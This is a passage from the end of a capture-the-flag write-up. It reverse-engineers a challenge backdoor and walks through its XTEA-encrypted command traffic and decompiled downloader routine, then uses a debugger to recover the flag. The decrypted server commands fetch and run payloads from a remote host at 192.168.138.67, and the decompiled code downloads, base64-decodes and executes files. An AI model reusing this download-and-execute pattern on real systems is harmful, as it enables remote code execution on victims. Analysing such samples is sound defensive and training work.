140001bf9                    int32_t r10_9 = r10_8 - (((r11_9 >> 5 ^ r11_9 << 4) + r11_9) ^ ((&var_28)[(uint64_t)(rbx_1 - 0x3c6ef372) & 3] + rbx_1 - 0x3c6ef372));
140001c1c                    int32_t r11_10 = r11_9 - (((r10_9 >> 5 ^ r10_9 << 4) + r10_9) ^ ((&var_28)[(uint64_t)((rbx_1 - 0x3c6ef372) >> 0xb) & 3] + rbx_1 - 0x3c6ef372));
140001c43                    int32_t r10_10 = r10_9 - (((r11_10 >> 5 ^ r11_10 << 4) + r11_10) ^ ((&var_28)[(uint64_t)(rbx_1 + 0x255992d5) & 3] + rbx_1 + 0x255992d5));
140001c71                    int32_t r11_11 = r11_10 - (((r10_10 >> 5 ^ r10_10 << 4) + r10_10) ^ ((&var_28)[(uint64_t)((rbx_1 + 0x255992d5) >> 0xb) & 3] + rbx_1 + 0x255992d5));
140001c9d                    int32_t r10_11 = r10_10 - (((r11_11 >> 5 ^ r11_11 << 4) + r11_11) ^ ((&var_28)[(uint64_t)(rbx_1 - 0x78dde6e4) & 3] + rbx_1 - 0x78dde6e4));
140001cc0                    int32_t r11_12 = r11_11 - (((r10_11 >> 5 ^ r10_11 << 4) + r10_11) ^ ((&var_28)[(uint64_t)((rbx_1 - 0x78dde6e4) >> 0xb) & 3] + rbx_1 - 0x78dde6e4));
140001cef                    int32_t r10_12 = r10_11 - (((r11_12 >> 5 ^ r11_12 << 4) + r11_12) ^ ((&var_28)[(uint64_t)(rbx_1 - 0x1715609d) & 3] + rbx_1 - 0x1715609d));
140001d12                    int32_t r11_13 = r11_12 - (((r10_12 >> 5 ^ r10_12 << 4) + r10_12) ^ ((&var_28)[(uint64_t)((rbx_1 - 0x1715609d) >> 0xb) & 3] + rbx_1 - 0x1715609d));
140001d39                    int32_t r10_13 = r10_12 - (((r11_13 >> 5 ^ r11_13 << 4) + r11_13) ^ ((&var_28)[(uint64_t)(rbx_1 + 0x4ab325aa) & 3] + rbx_1 + 0x4ab325aa));
140001d67                    int32_t r11_14 = r11_13 - (((r10_13 >> 5 ^ r10_13 << 4) + r10_13) ^ ((&var_28)[(uint64_t)((rbx_1 + 0x4ab325aa) >> 0xb) & 3] + rbx_1 + 0x4ab325aa));
140001d93                    int32_t r10_14 = r10_13 - (((r11_14 >> 5 ^ r11_14 << 4) + r11_14) ^ ((&var_28)[(uint64_t)(rbx_1 - 0x5384540f) & 3] + rbx_1 - 0x5384540f));
140001db6                    int32_t r11_15 = r11_14 - (((r10_14 >> 5 ^ r10_14 << 4) + r10_14) ^ ((&var_28)[(uint64_t)((rbx_1 - 0x5384540f) >> 0xb) & 3] + rbx_1 - 0x5384540f));
140001de5                    int32_t r10_15 = r10_14 - (((r11_15 >> 5 ^ r11_15 << 4) + r11_15) ^ ((&var_28)[(uint64_t)(rbx_1 + 0xe443238) & 3] + rbx_1 + 0xe443238));
140001e08                    int32_t r11_16 = r11_15 - (((r10_15 >> 5 ^ r10_15 << 4) + r10_15) ^ ((&var_28)[(uint64_t)((rbx_1 + 0xe443238) >> 0xb) & 3] + rbx_1 + 0xe443238));
140001e33                    int32_t r10_16 = r10_15 - (((r11_16 >> 5 ^ r11_16 << 4) + r11_16) ^ ((&var_28)[(uint64_t)(rbx_1 + 0x700cb87f) & 3] + rbx_1 + 0x700cb87f));
140001e5d                    int32_t r11_17 = r11_16 - (((r10_16 >> 5 ^ r10_16 << 4) + r10_16) ^ ((&var_28)[(uint64_t)((rbx_1 + 0x700cb87f) >> 0xb) & 3] + rbx_1 + 0x700cb87f));
140001e89                    int32_t r10_17 = r10_16 - (((r11_17 >> 5 ^ r11_17 << 4) + r11_17) ^ ((&var_28)[(uint64_t)(rbx_1 - 0x2e2ac13a) & 3] + rbx_1 - 0x2e2ac13a));
140001eac                    int32_t r11_18 = r11_17 - (((r10_17 >> 5 ^ r10_17 << 4) + r10_17) ^ ((&var_28)[(uint64_t)((rbx_1 - 0x2e2ac13a) >> 0xb) & 3] + rbx_1 - 0x2e2ac13a));
140001edb                    int32_t r10_18 = r10_17 - (((r11_18 >> 5 ^ r11_18 << 4) + r11_18) ^ ((&var_28)[(uint64_t)(rbx_1 + 0x339dc50d) & 3] + rbx_1 + 0x339dc50d));
140001efe                    int32_t r11_19 = r11_18 - (((r10_18 >> 5 ^ r10_18 << 4) + r10_18) ^ ((&var_28)[(uint64_t)((rbx_1 + 0x339dc50d) >> 0xb) & 3] + rbx_1 + 0x339dc50d));
140001f2d                    int32_t r10_19 = r10_18 - (((r11_19 >> 5 ^ r11_19 << 4) + r11_19) ^ ((&var_28)[(uint64_t)(rbx_1 - 0x6a99b4ac) & 3] + rbx_1 - 0x6a99b4ac));
140001f4a                    int32_t r11_20 = r11_19 - (((r10_19 >> 5 ^ r10_19 << 4) + r10_19) ^ ((&var_28)[(uint64_t)((rbx_1 - 0x6a99b4ac) >> 0xb) & 3] + rbx_1 - 0x6a99b4ac));
140001f7f                    int32_t r10_20 = r10_19 - (((r11_20 >> 5 ^ r11_20 << 4) + r11_20) ^ ((&var_28)[(uint64_t)(rbx_1 - 0x8d12e65) & 3] + rbx_1 - 0x8d12e65));
140001fa2                    int32_t r11_21 = r11_20 - (((r10_20 >> 5 ^ r10_20 << 4) + r10_20) ^ ((&var_28)[(uint64_t)((rbx_1 - 0x8d12e65) >> 0xb) & 3] + rbx_1 - 0x8d12e65));
140001fd1                    int32_t r10_21 = r10_20 - (((r11_21 >> 5 ^ r11_21 << 4) + r11_21) ^ ((&var_28)[(uint64_t)(rbx_1 + 0x58f757e2) & 3] + rbx_1 + 0x58f757e2));
140001ff4                    int32_t r11_22 = r11_21 - (((r10_21 >> 5 ^ r10_21 << 4) + r10_21) ^ ((&var_28)[(uint64_t)((rbx_1 + 0x58f757e2) >> 0xb) & 3] + rbx_1 + 0x58f757e2));
140002023                    int32_t r10_22 = r10_21 - (((r11_22 >> 5 ^ r11_22 << 4) + r11_22) ^ ((&var_28)[(uint64_t)(rbx_1 - 0x454021d7) & 3] + rbx_1 - 0x454021d7));
140002040                    r11_7 = r11_22 - (((r10_22 >> 5 ^ r10_22 << 4) + r10_22) ^ ((&var_28)[(uint64_t)((rbx_1 - 0x454021d7) >> 0xb) & 3] + rbx_1 - 0x454021d7));
140002043                    rbx_1 += 0x1c886470;
14000204c                    r9_1 = (uint64_t)rbx_1;
14000206d                    r10_7 = r10_22 - (((r11_7 >> 5 ^ r11_7 << 4) + r11_7) ^ ((&var_28)[(uint64_t)rbx_1 & 3] + rbx_1));
140002070                    j = j_1;
140002070                    j_1 -= 1;
140002074                } while (j != 1);
14000207a                int32_t temp0_1 = _bswap(r10_7);
14000207d                int32_t temp0_2 = _bswap(r11_7);
140002080                *(uint32_t*)result_1 = temp0_1;
140002083                rcx_23 += 8;
140002087                result_1[1] = temp0_2;
14000208b                result_1 = &result_1[2];
14000208f                i = i_1;
14000208f                i_1 -= 1;
140002093            } while (i != 1);
140001aca        }
140001aca        
1400020b9        return result;
1400019f0    }
```

This looks scary... But we can do a bit of research and google for some of the constants. We pretty quickly find this must be a implementation of [`XTEA`](https://en.wikipedia.org/wiki/XTEA), so nothing custom made. Thats good, so we maaaaybe can ship around analyzing this code in detail by just using a premade implementation. I used a [`Online XTEA Decrypt`](https://www.tools4noobs.com/online_tools/xtea_decrypt/) that was able to decrypt most (except of one) of the messages.

So here's the decrypted traffic:

```bash
DKEYEXCH|ENCRYPTTRAFFIK07
HEL|C:\windows\system32\cmd.exe
<client>
Microsoft Windows [Version 10.0.19044.1645]
(c) Microsoft Corporation. All rights reserved.

C:\Users\saura\data>

<server> CMD|cd %temp%
<client> cd %temp%

<client> C:\Users\saura\AppData\Local\Temp>
<server> ???
<server> EXEC|http://192.168.138.67:8080/data.png|DEKRYPT|0
<server> EXEC|http://192.168.138.67:8080/data.txt|DEKRYPT|1
```

The server called commands `HEL`, `CMD` (and one command that didn't want to decrypt), to change into the users temp folder. Then it called twice `EXEC` with the server ip plus `data.png` and `data.txt`. Lets go back to the executable and check what the function is doing there. Interesting enough, `EXEC` doesn't map to one of the hardcoded server command hashes, so we end up all the way down in the `else clause`.

```c
/// ...
1400025b5                    else
1400025b5                    {
1400025c2                        char* rax_13 = strtok_s(nullptr, &_Delimiter, &_Context);
1400025df                        int32_t rax_15 = StrToIntA(strtok_s(nullptr, &_Delimiter, &_Context));
140002603                        result = sub_140002890(Concurrency::details::UMSThreadProxy::InternalSwitchTo(lpBuffer), Concurrency::details::UMSThreadProxy::InternalSwitchTo(rax_13), rax_15);
1400025b5                    }
/// ...
```

We can see it tokenizes twice again. In `rax_13` in both cases `DEKRYPT` is stored, in `rax_15` the token is converted to an integer: for data.png `0` and for data.txt `1`. Then function `sub_140002890` is called with both parameters and the original first parameter (the url). Again, the function is rather length.

The first part is rather boring. There is a lot of code that does a web request to the passed url and writes the result into a temporary file:

```c
/// ...
14000295a        do
14000295a        {
140002950            cond:0_1 = arg1[rax_2 + 1];
140002956            rax_2 += 1;
14000295a        } while (cond:0_1);
14000296a        int64_t hInternet = InternetCrackUrlW(arg1, (int32_t)(rax_2 * 2), 0, &var_e78);
14000296a        
140002972        if (hInternet)
140002972        {
14000299a            hInternet = InternetOpenW(u"ChernyyKhod", 1, nullptr, nullptr, 0);
1400029a5            int64_t hInternet_1 = hInternet;
1400029a5            
1400029ab            if (hInternet)
1400029ab            {
1400029d2                uint32_t var_ec8_1;
1400029d2                var_ec8_1 = 0;
1400029df                int64_t hConnect = InternetConnectW(hInternet, *(uint64_t*)((char*)var_e68)[8], *(uint16_t*)((char*)var_e58)[4], nullptr, var_ec8_1, 3, 0, 0);
1400029ea                int64_t hInternet_2 = hConnect;
1400029ea                
1400029f0                if (hConnect)
1400029f0                {
140002a14                    uint32_t lplpszAcceptTypes;
140002a14                    lplpszAcceptTypes = 0;
140002a19                    var_ec8_1 = 0;
140002a26                    int64_t rax_3 = HttpOpenRequestW(hConnect, &data_140005660, *(uint64_t*)((char*)var_e38)[8], nullptr, var_ec8_1, lplpszAcceptTypes, 0x4000000, 0);
140002a26                    
140002a32                    if (rax_3)
140002a32                    {
140002a48                        if (HttpSendRequestW(rax_3, nullptr, 0, nullptr, 0))
140002a50                        {
140002a65                            void lpBuffer;
140002a65                            memset(&lpBuffer, 0, 0x400);
140002a71                            uint32_t i_1 = 0;
140002a7a                            uint32_t lpNumberOfBytesWritten_1 = 0;
140002a7e                            void var_b58;
140002a7e                            GetTempPathW(0x104, &var_b58);
140002a84                            void* rcx_7 = &var_b58;
140002a8e                            void var_d68;
140002a8e                            
140002a8e                            if (!arg3)
140002a8e                            {
140002aad                                PWSTR lpString2 = *(uint64_t*)((char*)var_e38)[8] + 2;
140002ab1                                *(uint64_t*)((char*)var_e38)[8] = lpString2;
140002ab5                                lstrcatW(rcx_7, lpString2);
140002ac9                                lstrcpyW(&var_d68, &var_b58);
140002a8e                            }
140002a8e                            else
140002aa1                                GetTempFileNameW(rcx_7, &data_140005668, 0, &var_d68);
140002aa1                            
140002ad2                            uint32_t var_eb8_2;
140002ad2                            var_eb8_2 = 0;
140002af6                            HANDLE rax_5 = CreateFileW(&var_d68, 4, FILE_SHARE_WRITE, nullptr, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, var_eb8_2);
140002b51                            uint32_t i;
140002b51                            
140002b51                            do
140002b51                            {
140002b14                                if (InternetReadFile(rax_3, &lpBuffer, 0x400, &i_1))
140002b1c                                {
140002b2d                                    enum FILE_CREATION_DISPOSITION lpOverlapped;
140002b2d                                    lpOverlapped = 0;
140002b35                                    WriteFile(rax_5, &lpBuffer, i_1, &lpNumberOfBytesWritten_1, lpOverlapped);
140002b1c                                }
140002b1c                                
140002b3b                                i = i_1;
140002b4a                                memset(&lpBuffer, 0, (uint64_t)i);
140002b51                            } while (i);
140002b51                            
140002b56                            CloseHandle(rax_5);
/// ...
140002e43                            hInternet_1 = hInternet;
140002a50                        }
140002a50                        
140002e4b                        InternetCloseHandle(rax_3);
140002a32                    }
140002a32                    
140002e54                    InternetCloseHandle(hInternet_2);
1400029f0                }
1400029f0                
140002e65                hInternet = InternetCloseHandle(hInternet_1);
1400029ab            }
140002972        }
140002972        
140002e85        __security_check_cookie(rax_1 ^ &var_ee8);
140002e97        return hInternet;
140002890    }

```

Next up the  file is read again and converted from base64 and written again to the same file. 

```c
140002b5c                            var_eb8_2 = 0;
140002b84                            HANDLE rax_7 = CreateFileW(&var_d68, 0x80000000, i + 1, nullptr, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, var_eb8_2);
140002b84                            
140002b90                            if (rax_7 != -1)
140002b90                            {
140002b9b                                uint32_t nNumberOfBytesToRead = GetFileSize(rax_7, nullptr);
140002ba6                                uint8_t* lpBuffer_1 = malloc((uint64_t)nNumberOfBytesToRead);
140002bb7                                memset(lpBuffer_1, 0, (uint64_t)nNumberOfBytesToRead);
140002bc5                                uint32_t lpNumberOfBytesRead = 0;
140002bcb                                enum FILE_CREATION_DISPOSITION lpOverlapped_1;
140002bcb                                lpOverlapped_1 = 0;
140002bcb                                
140002bdb                                if (ReadFile(rax_7, lpBuffer_1, nNumberOfBytesToRead, &lpNumberOfBytesRead, lpOverlapped_1))
140002bdb                                {
140002be4                                    CloseHandle(rax_7);
140002be4                                    
140002bee                                    if (lpNumberOfBytesRead == nNumberOfBytesToRead)
140002bee                                    {
140002bf4                                        var_eb8_2 = 0;
140002bfe                                        enum FILE_FLAGS_AND_ATTRIBUTES var_ec0_2;
140002bfe                                        var_ec0_2 = 0;
140002c0a                                        uint32_t nNumberOfBytesToWrite_1;
140002c0a                                        lpOverlapped_1 = &nNumberOfBytesToWrite_1;
140002c12                                        nNumberOfBytesToWrite_1 = 0;
140002c12                                        
140002c21                                        if (CryptStringToBinaryA(lpBuffer_1, (uint64_t)nNumberOfBytesToRead, 1, 0, lpOverlapped_1, var_ec0_2, var_eb8_2))
140002c21                                        {
140002c2b                                            uint8_t* lpBuffer_2 = malloc((uint64_t)nNumberOfBytesToWrite_1);
140002c3e                                            memset(lpBuffer_2, 0, (uint64_t)nNumberOfBytesToWrite_1);
140002c48                                            var_eb8_2 = 0;
140002c4d                                            var_ec0_2 = 0;
140002c59                                            lpOverlapped_1 = &nNumberOfBytesToWrite_1;
140002c59                                            
140002c6c                                            if (CryptStringToBinaryA(lpBuffer_1, (uint64_t)nNumberOfBytesToRead, 1, lpBuffer_2, lpOverlapped_1, var_ec0_2, var_eb8_2))
140002c6c                                            {
140002c72                                                var_eb8_2 = 0;
140002c9a                                                HANDLE rax_11 = CreateFileW(&var_d68, 0x40000000, FILE_SHARE_WRITE, nullptr, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, var_eb8_2);
140002c9a                                                
140002ca6                                                if (rax_11 != -1)
140002ca6                                                {
140002cac                                                    uint32_t nNumberOfBytesToWrite = nNumberOfBytesToWrite_1;
140002cbe                                                    uint32_t lpNumberOfBytesWritten = 0;
140002cc2                                                    enum FILE_CREATION_DISPOSITION lpOverlapped_2;
140002cc2                                                    lpOverlapped_2 = 0;
140002cc2                                                    
140002ccf                                                    if (WriteFile(rax_11, lpBuffer_2, nNumberOfBytesToWrite, &lpNumberOfBytesWritten, lpOverlapped_2))
140002ccf                                                    {
140002cd8                                                        CloseHandle(rax_11);
/// ...
140002bdb                                
140002e3e                                hInternet_2 = hConnect;
140002b90                            }
```

The last part creates a new process that runs the file **if** `arg3` is set and passes in `arg2` as commandline argument. Both parameters are coming from the command, remember `arg3` one time was set to `0` and the second time to `1` whereas `arg2` was set to `DEKRYPT` in both cases.

```c
140002cf0                                                        if (lpNumberOfBytesWritten == nNumberOfBytesToWrite_1 && arg3)
140002cf0                                                        {
140002cf9                                                            int32_t lpStartupInfo = 0x68;
140002d09                                                            int64_t rax_14 = -1;
140002d0c                                                            int128_t s;
140002d0c                                                            __builtin_memset(&s, 0, 0x64);
140002d24                                                            int128_t var_e08;
140002d24                                                            __builtin_memset(&var_e08, 0, 0x18);
140002d24                                                            
140002d38                                                            do
140002d30                                                                rax_14 += 1;
140002d38                                                             while (*(uint16_t*)(arg2 + (rax_14 << 1)));
140002d38                                                            
140002d41                                                            int64_t rcx_27 = -1;
140002d41                                                            
140002d4c                                                            do
140002d44                                                                rcx_27 += 1;
140002d4c                                                             while (*(uint16_t*)(&var_d68 + (rcx_27 << 1)));
140002d4c                                                            
140002d5d                                                            PWSTR lpCommandLine = malloc((uint64_t)((int32_t)((rax_14 + rcx_27) << 1) + 4));
140002d6e                                                            memset(lpCommandLine, 0, (uint64_t)((int32_t)((rax_14 + rcx_27) << 1) + 4));
140002d7a                                                            int64_t r8_9 = -1;
140002d7a                                                            
140002d88                                                            do
140002d80                                                                r8_9 += 1;
140002d88                                                             while (*(uint16_t*)(&var_d68 + (r8_9 << 1)));
140002d88                                                            
140002d97                                                            memcpy(lpCommandLine, &var_d68, r8_9 * 2);
140002da3                                                            int64_t rax_17 = -1;
140002dba                                                            void var_d66;
140002dba                                                            bool cond:1_1;
140002dba                                                            
140002dba                                                            do
140002dba                                                            {
140002db0                                                                cond:1_1 = *(uint16_t*)(&var_d66 + (rax_17 << 1));
140002db6                                                                rax_17 += 1;
140002dba                                                            } while (cond:1_1);
140002dc1                                                            int64_t r8_11 = -1;
140002dc4                                                            lpCommandLine[rax_17] = 0x20;
140002dc4                                                            
140002dd8                                                            do
140002dd0                                                                r8_11 += 1;
140002dd8                                                             while (*(uint16_t*)(arg2 + (r8_11 << 1)));
140002dd8                                                            
140002dee                                                            bool cond:2_1;
140002dee                                                            
140002dee                                                            do
140002dee                                                            {
140002de4                                                                cond:2_1 = *(uint16_t*)(&var_d66 + (rdi << 1));
140002dea                                                                rdi += 1;
140002dee                                                            } while (cond:2_1);
140002dfb                                                            memcpy(&lpCommandLine[rdi + 1], arg2, r8_11 * 2);
140002e29                                                            var_eb8_2 = 0;
140002e38                                                            CreateProcessW(nullptr, lpCommandLine, nullptr, nullptr, 0, 0, var_eb8_2, &var_b58, &lpStartupInfo, &var_e08);
140002cf0                                                        }
140002ccf                                                    }
140002ca6                                                }
140002c6c                                            }
140002c21                                        }
140002bee                                    }
140002bdb                                }
```

Alright, we know what the server is doing. It downloads files from itself via a http request to the client. Decodes the files (which are incomming as base64 encoded blobs) and runs one of the files with command line arguments `DEKRYPT`.

Lets go back to the network traffic capture and see if we can find the download commands.

```bash
262	110.045912	192.168.138.67	192.168.138.228	HTTP	1410			HTTP/1.0 200 OK  (image/png)
289	123.885018	192.168.138.228	192.168.138.67	HTTP	132			GET /data.txt HTTP/1.1 
...
```

We can extract the data by following the TCP streams for both requests: [`data.png`](request1.txt), [`data.txt`](request2.txt). Both files come base64 encoded, we can just decode both files. The `png` file is not a png file at all, but the `data.txt` file is actually a executable. So lets open this file in BinaryNinja.

The main function converts the (second) input argument to a utf-16 string and ten calls `sub_140001260` on the string.

```c
140001000    int64_t main(int32_t arg1, void* arg2)
140001000    {
140001000        if (arg1 == 2)
14000100e        {
140001027            int64_t rbx_1 = -1;
140001056            int64_t r14_1 = (int64_t)WideCharToMultiByte(0xfde9, 0, *(uint64_t*)((char*)arg2 + 8), 0xffffffff, nullptr, 0, nullptr, nullptr);
14000105c            char* lpMultiByteStr = malloc(r14_1);
14000106d            memset(lpMultiByteStr, 0, r14_1);
140001072            wchar16* lpWideCharStr = *(uint64_t*)((char*)arg2 + 8);
140001072            
140001088            do
140001080                rbx_1 += 1;
140001088             while (lpWideCharStr[rbx_1]);
140001088            
1400010a8            WideCharToMultiByte(0xfde9, 0, lpWideCharStr, rbx_1, lpMultiByteStr, r14_1, nullptr, nullptr);
1400010b1            sub_140001260(lpMultiByteStr);
14000100e        }
14000100e        
1400010d1        return 0;
140001000    }
```

Function `sub_140001260` is also not very complicated. The function creates a `sha256` hash of our commandline argument (`DEKRYPT`). We know that it's a sha256 hash because the second parameter of [`CryptCreateHash`](https://learn.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptcreatehash) is `0x800c` which corresponds to `CALG_SHA_256`. 

```c
140001260    BOOL sub_140001260(char* arg1)

140001260    {
140001260        void var_2b8;
14000127b        int64_t rax_1 = __security_cookie ^ &var_2b8;
140001288        uint32_t var_298 = 0xf0000000;
140001293        uint64_t hProv_1 = 0;
1400012a6        BOOL result = CryptAcquireContextW(&hProv_1, nullptr, nullptr, 0x18, var_298);
1400012a6        
1400012ae        if (result)
1400012ae        {
1400012b4            uint64_t hProv = hProv_1;
1400012c1            uint64_t hHash;
1400012c1            var_298 = &hHash;
1400012c9            hHash = 0;
1400012c9            
1400012db            if (CryptCreateHash(hProv, 0x800c, 0, 0, var_298))
1400012db            {
1400012f0                int64_t r8_1 = -1;
1400012f0                
1400012fa                do
1400012f3                    r8_1 += 1;
1400012fa                 while (arg1[r8_1]);
1400012fa                
14000130f                if (CryptHashData(hHash, arg1, r8_1, 0))
14000130f                {
140001315                    uint64_t hHash_1 = hHash;
140001322                    uint32_t var_270 = 0;
140001322                    
140001338                    if (CryptGetHashParam(hHash_1, 2, nullptr, &var_270, 0))
140001338                    {
14000134a                        uint8_t* pbData = malloc((uint64_t)var_270);
14000135d                        memset(pbData, 0, (uint64_t)var_270);
14000135d                        
140001381                        if (CryptGetHashParam(hHash, 2, pbData, &var_270, 0))
140001381                        {
140001387                            uint64_t rcx_5 = (uint64_t)var_270;
14000138b                            uint64_t _Size = rcx_5 + 0xc;
14000138f                            int64_t lpNumberOfBytesRead = 0;
14000138f                            
140001394                            if (rcx_5 >= -0xc)
140001394                                _Size = -1;
140001394                            
140001398                            int64_t* pbData_1 = malloc(_Size);
1400013af                            memset(pbData_1, 0, (uint64_t)var_270 + 0xc);
1400013b4                            lpNumberOfBytesRead = 0x208;
1400013be                            *(uint32_t*)((char*)lpNumberOfBytesRead)[4] = 0x6610;
1400013cb                            *(uint64_t*)pbData_1 = lpNumberOfBytesRead;
1400013d2                            pbData_1[1] = var_270;
1400013de                            memcpy((char*)pbData_1 + 0xc, pbData, var_270);
14000140e                            uint64_t hKey_1;
14000140e                            
14000140e                            if (CryptImportKey(hProv_1, pbData_1, var_270 + 0xc, 0, 0, &hKey_1))
14000140e                            {
/// ...
14000140e                            }
140001381                        }
140001338                    }
14000130f                }
14000130f                
1400015b4                CryptDestroyHash(hHash);
1400012db            }
1400012db            
1400015c9            result = CryptReleaseContext(hProv_1, 0);
1400012ae        }
1400012ae        
1400015d9        __security_check_cookie(rax_1 ^ &var_2b8);
1400015e9        return result;
140001260    }
```

Lastely the has is imported as `aes-256` key by calling [`CryptImportKey`](https://learn.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptimportkey). We know the algorithm because `0x6610` is filled to the `PUBLICKEYSTRUC` structs `aiKeyAlg` field that corresponds to `CALG_AES_256`.

```c
/// ...
140001426                                void var_248;
140001426                                GetTempPathW(0x104, &var_248);
140001438                                lstrcatW(&var_248, u"data.png");
140001448                                uint64_t* var_290_1;
140001448                                var_290_1 = 0x80;
140001463                                HANDLE hFile = CreateFileW(&var_248, 0xc0000000, FILE_SHARE_NONE, nullptr, OPEN_EXISTING, var_290_1, nullptr);
140001463                                
14000146f                                if (hFile != -1)
14000146f                                {
140001495                                    uint64_t r15_1 = (uint64_t)GetFileSize(hFile, nullptr);
140001498                                    uint8_t* lpBuffer = malloc(0x10);
1400014a1                                    lpNumberOfBytesRead = 0;
1400014a9                                    uint32_t count = 0;
1400014b3                                    void* rax_8 = malloc((uint64_t)r15_1);
1400014c1                                    void* rsi_1 = rax_8;
1400014c4                                    memset(rax_8, 0, (uint64_t)r15_1);
1400014c4                                    
140001544                                    for (BOOL Final = 0; !Final; )
140001544                                    {
1400014d5                                        enum FILE_CREATION_DISPOSITION var_298_4;
1400014d5                                        var_298_4 = 0;
1400014eb                                        *(uint128_t*)lpBuffer = {0};
1400014ee                                        ReadFile(hFile, lpBuffer, 0x10, &lpNumberOfBytesRead, var_298_4);
1400014fe                                        uint64_t hKey = hKey_1;
1400014fe                                        
140001503                                        if (lpNumberOfBytesRead < 0x10)
140001503                                            Final = 1;
140001503                                        
140001507                                        uint32_t* pdwDataLen = &count;
14000150f                                        count = 0x10;
14000151a                                        var_298_4 = lpBuffer;
14000151a                                        
140001529                                        if (CryptDecrypt(hKey, 0, Final, 0, var_298_4, pdwDataLen))
140001529                                        {
140001536                                            memcpy(rsi_1, lpBuffer, count);
14000153f                                            rsi_1 += (uint64_t)count;
140001529                                        }
140001544                                    }
140001544                                    
14000154a                                    uint32_t count_1 = r15_1 - (int32_t)*(uint8_t*)((char*)rsi_1 - 1);
140001550                                    uint8_t* rax_12 = malloc((uint64_t)count_1);
140001561                                    memset(rax_12, 0, (uint64_t)count_1);
140001574                                    memcpy(rax_12, (char*)rsi_1 - r15_1, count_1);
14000157f                                    sub_1400010e0(rax_12, count_1);
14000146f                                }
14000146f                                
140001599                                CryptDestroyKey(hKey_1);
/// ...
```

The remaining part loads the content of `%temp%\data.png`, creates a copy (and leaks some memory) and decrypts the file in 16 byte blocks. 
```c
1400010e0    BOOL sub_1400010e0(uint8_t* arg1, uint32_t arg2)

1400010e0    {
1400010e0        void var_88;
1400010f6        int64_t rax_1 = __security_cookie ^ &var_88;
1400010ff        uint32_t var_68 = 0xf0000000;
140001109        uint64_t hProv_1 = 0;
14000111d        BOOL result = CryptAcquireContextW(&hProv_1, nullptr, nullptr, 0x18, var_68);
14000111d        
140001125        if (result)
140001125        {
14000112b            uint64_t hProv = hProv_1;
140001136            uint64_t hHash;
140001136            var_68 = &hHash;
14000113e            hHash = 0;
14000113e            
14000114f            if (CryptCreateHash(hProv, 0x800c, 0, 0, var_68) && CryptHashData(hHash, arg1, arg2, 0))
14000114f            {
140001170                uint64_t hHash_1 = hHash;
14000117b                uint32_t pdwDataLen = 0;
14000117b                
14000118d                if (CryptGetHashParam(hHash_1, 2, nullptr, &pdwDataLen, 0))
14000118d                {
140001196                    uint8_t* rax_5 = malloc((uint64_t)pdwDataLen);
1400011a8                    memset(rax_5, 0, (uint64_t)pdwDataLen);
1400011a8                    
1400011c7                    if (CryptGetHashParam(hHash, 2, rax_5, &pdwDataLen, 0))
1400011c7                    {
1400011c9                        uint64_t count = (uint64_t)pdwDataLen;
1400011d4                        int32_t buffer2;
1400011d4                        __builtin_memcpy(&buffer2, "\x03\x74\x9e\x82\xc8\x6f\x13\xae\x7c\xe5\x2f\xd3\x8d\x41\x3d\x36\x46\x71\xdb\x92\xf6\x29\xff\x70\x86\x0b\x3d\x19\x5f\x62\xdf\xf7", 0x20);
1400011d4                        
140001213                        if (!memcmp(rax_5, &buffer2, count))
14000121c                            sub_1400015f0(std::cout);
1400011c7                    }
14000118d                }
14000118d                
140001225                CryptDestroyHash(hHash);
14000114f            }
14000114f            
140001231            result = CryptReleaseContext(hProv_1, 0);
140001125        }
140001125        
14000123e        __security_check_cookie(rax_1 ^ &var_88);
140001252        return result;
1400010e0    }
```

Theres one more function. Function `sub_1400010e0` is called after the file was decrypted fully. It creates a hash over the decrypted data and checks it against `03749e82c86f13ae7ce52fd38d413d364671db92f629ff70860b3d195f62dff7`. If both hashes match it prints the message `I can decrypt the flag, Its your turn to find it, Good Luck!!`.

So this tool decrypts the image but doesn't save it anywhere. There are multiple ways of course to get to the image. One is to reimplement the logic, which should be fairly easy. But we can also just use the tool and run it within a debugger.

First we need to find where to set a good breakpoint. One good point would be at `14000157f` where the validation function is called. We know that the buffer is in `rdi` or `rcx`. 

```c
140001550  ff15421c0000       call    qword [rel malloc]
140001556  458bc7             mov     r8d, r15d
140001559  33d2               xor     edx, edx  {0x0}
14000155b  488bc8             mov     rcx, rax
14000155e  488bf8             mov     rdi, rax
140001561  e8b80e0000         call    memset
140001566  482b742440         sub     rsi, qword [rsp+0x40 {var_278_1}]
14000156b  488bcf             mov     rcx, rdi
14000156e  488bd6             mov     rdx, rsi
140001571  458bc7             mov     r8d, r15d
140001574  e8bc0f0000         call    memcpy
140001579  418bd7             mov     edx, r15d
14000157c  488bcf             mov     rcx, rdi
14000157f  e85cfbffff         call    sub_1400010e0
```

For this we need to find the base address, we can get the loaded module by calling `lm` in WinDbg.

```c
0:000> lm
start             end                 module name
00007ff7`8bf70000 00007ff7`8bf79000   download C (no symbols)   
...
```

Now we have the base address, we can add the relative offset of where we want to set the breakpoint (that would be `0x14000157f - 0x140000000 = 0x157f`). So our breakpoint needs to go to `0x7ff78bf70000 + 0x157f = 0x7ff78bf7157f`. Selecting the line, hitting `F9` to set the breakpoint, and then hitting `F5` to continue.



As we know which parameters point to the memory location with our decoded buffer `rax, rdi and rcx` (`0x1654276A470`) right before the function call, we can just grab the address from the registers. Also we know the buffer size is in `rdx, r15d` (`0x833`).



To extract the data from memory we can use the [`.writemem`](https://learn.microsoft.com/en-us/windows-hardware/drivers/debuggercmds/-writemem--write-memory-to-file-) command.

```bash
0:000> .writemem C:\data.png 000001654276A470 000001654276aca3
Writing 834 bytes..
```

And after opening the extracted file, we get the flag.


Flag `C0ngr@tsY0uH@v3D0n31t!!!`